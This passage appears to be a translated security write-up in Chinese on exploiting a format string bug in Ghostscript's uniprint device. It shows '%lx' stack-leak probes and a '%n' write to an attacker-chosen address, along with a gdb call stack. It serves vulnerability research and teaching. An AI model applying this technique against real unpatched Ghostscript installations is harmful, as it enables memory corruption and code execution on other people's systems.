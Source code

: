   
  
```
$ ./fmt 'AAAAAAAA_%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx'
AAAAAAAA_7fff98ccd540,7fff98ccca50,d,0,7c7a77bd2180,7fff98cccbf8,20,4141414141414141,786c252c786c255f
```  
  
  
注意堆栈上的文字4141414141414141，来自格式字符串的开头（"AAAAAAAA"）。通过用程序替换相应的内容，%lx程序%n将尝试将值写入该地址：  
  
```
$ valgrind ./fmt 'AAAAAAAA_%lx,%lx,%lx,%lx,%lx,%lx,%lx,%n,%lx'
...
==671567== Invalid write of size 4
==671567== at 0x48E2BA1: __printf_buffer (vfprintf-process-arg.c:348)
==671567== by 0x48E36E0: __vfprintf_internal (vfprintf-internal.c:1523)
==671567== by 0x48D886E: printf (printf.c:33)
==671567== by 0x1091EC: main (in fmt)
==671567== Address 0x4141414141414141 is not stack'd, malloc'd or (recently) free'd...
```  
  
  
遗憾的是，我们的情况并非如此简单。我们的格式字符串位于堆上，因此我们需要在堆栈上找到一个我们可以完全控制的不同值。   
  
堆栈由哪些值组成？嗯，它始终包含调用堆栈中每个函数的参数和局部变量。以下是调用时的调用堆栈gs_snprintf：  
  
```
#0   upd_wrtrtl (upd=0x55555829c610, out=0x55555827fe50) at ./devices/gdevupd.c:6992
#1   upd_print_page (pdev=0x555558550068, out=0x55555827fe50) at ./devices/gdevupd.c:1161
#2   gx_default_print_page_copies (pdev=0x555558550068, prn_stream=0x55555827fe50, num_copies=0x1) at ./base/gdevprn.c:1160
#3   gdev_prn_output_page_aux (pdev=0x555558550068, num_copies=0x1, flush=0x1, seekable=0x0, bg_print_ok=0x0) at ./base/gdevprn.c:1062
#4   gdev_prn_output_page (pdev=0x555558550068, num_copies=0x1, flush=0x1) at ./base/gdevprn.c:1098
#5   default_subclass_output_page (dev=0x5555583c42e8, num_copies=0x1, flush=0x1) at ./base/gdevsclass.c:136
#6   gs_output_page (pgs=0x555558198490, num_copies=0x1, flush=0x1) at ./base/gsdevice.c:207
#7   zoutputpage (i_ctx_p=0x5555581981a8) at ./psi/zdevice.c:502
#8   do_call_operator (op_proc=0x55555646e9e8 <zoutputpage>, i_ctx_p=0x5555581981a8) at ./psi/interp.c:91
#9   interp (pi_ctx_p=0x555558164a50, pref=0x7fffffffd170, perror_object=0x7fffffffd4e0) at ./psi/interp.c:1375
#10  gs_call_interp (pi_ctx_p=0x555558164a50, pref=0x7fffffffd3e0, user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/interp.c:531
#11  gs_interpret (pi_ctx_p=0x555558164a50, pref=0x7fffffffd3e0, user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/interp.c:488
#12  gs_main_interpret (minst=0x5555581649b0, pref=0x7fffffffd3e0, user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/imain.c:257
#13  gs_main_run_string_end (minst=0x5555581649b0, user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/imain.c:945
#14  gs_main_run_string_with_length (minst=0x5555581649b0, str=0x555558273390 "<707472732e7073>.runfile", length=0x18, user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/imain.c:889
#15  gs_main_run_string (minst=0x5555581649b0, str=0x555558273390 "<707472732e7073>.runfile", user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/imain.c:870
#16  run_string (minst=0x5555581649b0, str=0x555558273390 "<707472732e7073>.runfile", options=0x3, user_errors=0x1, pexit_code=0x7fffffffd4d8, perror_object=0x7fffffffd4e0) at ./psi/imainarg.c:1169
#17  runarg (minst=0x5555581649b0, pre=0x555557000263 "", arg=0x7fffffffd658 "ptrs.ps", post=0x555557000914 ".runfile", options=0x3, user_errors=0x1, pexit_code=0x0, perror_object=0x0) at ./psi/imainarg.c:1128
#18  argproc (minst=0x5555581649b0, arg=0x7fffffffd658 "ptrs.ps") at ./psi/imainarg.c:1050
#19  gs_main_init_with_args01 (minst=0x5555581649b0, argc=0x4, argv=0x7fffffffe228) at ./psi/imainarg.c:242
#20  gs_main_init_with_args (minst=0x5555581649b0, argc=0x4, argv=0x7fffffffe228) at ./psi/imainarg.c:289
#21  psapi_init_with_args (ctx=0x555558164180, argc=0x4, argv=0x7fffffffe228) at ./psi/psapi.c:281
#22  gsapi_init_with_args (instance=0x555558164180, argc=0x4, argv=0x7fffffffe228) at ./psi/iapi.c:253
```